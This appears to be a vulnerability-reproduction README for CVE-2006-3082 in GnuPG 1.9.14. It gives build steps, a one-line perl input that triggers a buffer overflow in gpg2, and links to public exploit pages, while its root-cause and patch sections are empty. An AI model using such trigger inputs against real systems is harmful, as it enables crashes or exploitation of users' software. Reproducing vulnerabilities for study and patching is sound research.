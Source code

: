 # CVE-2006-3082

## Experiment Environment

Ubuntu 10.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-3082/gnupg-1.9.14.tar.bz2
tar -xvf gnupg-1.9.14.tar.bz2
cd gnupg-1.9.14
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
perl -e 'print "\xcd\xff\xff\xff\xff\xfe"'| ./g10/gpg2 --no-armor
```

## PoCs

[GnuPG 1.4.3/1.9.x - Parse_User_ID Remote Buffer Overflow](https://www.exploit-db.com/exploits/28077/)

[GnuPG Parse_User_ID Remote Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/18554/exploit)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

## References
